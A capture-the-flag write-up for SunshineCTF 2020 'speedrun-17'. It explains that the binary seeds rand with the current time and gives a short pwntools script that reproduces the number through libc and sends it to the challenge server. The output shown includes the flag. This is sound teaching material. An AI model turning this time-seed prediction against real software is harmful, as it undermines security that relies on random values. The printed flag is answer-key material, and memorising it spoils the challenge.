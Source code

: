 The exploit here it taking advantage of `rand`.  From the code, seed with the
current time.  So just compute the same random number with `rand` using the
UTC time as the seed.

### Exploit

```python  
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./chall_17')

if not args.REMOTE:  
   p = process(binary.path)  
else:  
   p = remote('chal.2020.sunshinectf.org', 30017)

from ctypes import *  
libc = cdll.LoadLibrary('libc.so.6')  
libc.srand(libc.time(None))

p.sendline(str(libc.rand()))  
log.info('flag: ' + p.recvline().decode())  
```

Python can call C functions directly, so doing this all in Python was pretty
straightforward.

Output:

```bash  
# ./exploit_17.py REMOTE=1  
[*] '/pwd/datajerk/sunshinectf2020/speedrun-17/chall_17'  
   Arch:     amd64-64-little  
   RELRO:    Full RELRO  
   Stack:    Canary found  
   NX:       NX enabled  
   PIE:      PIE enabled  
[+] Opening connection to chal.2020.sunshinectf.org on port 30017: Done  
[*] flag: sun{unholy-confessions-b74c1ed1f1d486fe}  
```  

Original writeup (https://github.com/datajerk/ctf-write-
ups/blob/master/sunshinectf2020/speedrun/README.md).